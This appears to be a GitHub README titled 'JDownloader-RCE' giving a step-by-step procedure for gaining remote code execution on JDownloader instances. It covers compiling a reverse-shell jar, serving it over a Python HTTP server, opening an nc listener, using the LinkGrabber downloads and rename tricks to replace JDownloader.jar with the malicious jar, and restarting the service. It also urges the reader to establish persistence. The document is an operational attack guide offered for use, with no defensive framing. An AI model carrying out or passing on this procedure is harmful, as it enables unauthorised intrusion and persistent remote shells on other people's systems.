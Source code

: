 # JDownloader-RCE
Documenting how to exploit JDownloader instances

Tested on Docker container running Linux Alpine 64 bit, bit it should run on windows/linux either way.

# TL;DR

You can upload a .jar file to JDownloader and change its name to `JDownloader.jar` then restart the service, triggering whatever was in the .jar 

# Step 1: Verify environment settings 

1.1 When you get to the JDownloader interface, go to the top left and select 'Help -> About JDownloader'

1.2 Check the Java version and Installation Directory (in this screenshot its JRE 1.8 and `/config`, the config file is covered by the "Click me / Mouse Over")

# Step 2: Create payload 

2.1 Edit the `shell.java` file with your IP and port that you want the reverse shell to come back to. 

2.2 Compile the file. (You may need to change the target and source parameters depending on the JRE from step 1.2)
```bash
javac -target 1.8 -source 1.8 shell.java
jar cmf manifest.mf myprogram.jar shell.class
```


# Step 3: Start server and listener

Open 2 terminals, one to grab your java files from and one with the port you want the reverse shell to come back to.

Terminal 1 : `python3 -m http.server 8081`

Terminal 2 : `nc -nvlp <PORT>`

# Step 4: Upload files

4.1 Go back to the web interface, on the "LinkGrabber" tab and right click. Select 'Add new Links'. 

4.2 Enter your ip like so 'http://<IP>:8081'

4.3 Ensure the directory next to the save icon is the same installation directory from step 1.2

# Step 5: Change file names 

5.1 Expand each folder and download `myprogram.jar` and `manifest.mf` by right clicking on them and selecting `start download` (if you want, you can replace any file with manifest.mf, we just need a placeholder file that has some text in it)  

5.2 Go over to the "downloads" tab and right click on `manifest.mf`. Goto Properties -> Rename. Change the filename to `JDownloader.jar`. You should get an error saying the file already exists. However, the filename within the GUI changes to JDownloader.jar.

5.3 Repeat step 5.2 again, this time renaming the file to `JDownloader.jar.bak`. This will change the actual `JDownloader.jar` within the config directory to `JDownloader.jar.bak`. 

5.4 Change `myprogram.jar` to `JDownloader.jar`. You should not get an error this time, because the previous step changed the original `JDownloader.jar` to `JDownloader.jar.bak`. 

# Step 6: Execute. 

** WARNING: Once you run this step you will lose GUI access. This is because we have replaced the .jar file that controls the GUI with our malicious code. ** 

6.1 In the top left, goto `File -> Restart`. This should restart the service, which re-runs the `JDownloader.jar` (which is now our malicious file) 

6.2 To re-execute, just reconnect. (This hasn't been tested thuroughly so dont rely on it. Establish persistence!!) 

# Cleanup

If you'd like to fix it, just delete the `JDownloader.jar`, `myprogam.jar`, `manifest.mf` and rename `JDownloader.jar.bak` back to `JDownloader.jar`. You may need to restart the service or just run the .jar manually to get the GUI back up. 
